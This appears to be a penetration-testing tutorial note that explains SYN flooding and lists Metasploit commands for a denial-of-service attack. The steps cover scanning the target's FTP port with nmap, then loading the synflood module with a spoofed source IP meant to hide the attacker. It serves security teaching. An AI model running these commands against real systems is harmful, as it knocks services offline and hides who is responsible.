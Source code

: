 - SYN flooding takes advantage of a flaw with regard to how most hosts implement the TCP three-way handshake. This attack occurs when the intruder sends unlimited SYN packets (requests) to the host system. The process of transmitting such packets is faster than the system can handle. Normally, the connection establishes with the TCP three-way handshake, and the host keeps track of the partially open connections while waiting in a listening queue for response ACK packets.

- Metasploit is a penetration testing platform that allows a user to find, exploit, and validate vulnerabilities. Also, it provides the infrastructure, content, and tools to conduct penetration tests and comprehensive security auditing. The Metasploit framework has numerous auxiliary module scripts that can be used to perform DoS attacks.

- Here, we will use the Metasploit tool to perform a DoS attack (SYN flooding) on a target host.

- Open Terminal
	> sudo su
	> nmap -p 21 #targetip (to check if port 21 is open, ie, the ftp service)
	
	-  we will use an auxiliary module of Metasploit called **synflood** to perform a DoS attack on the target machine.
	> msfconsole
	> use auxiliary/dos/tcp/synflood (to launch SYN flood module)
	> show options
	> set RHOST #targetip 
	> set RPORT 21
	> set SHOST #spoofip (this spoofs the ip address and won't reveal where the flood is coming from)
	> exploit
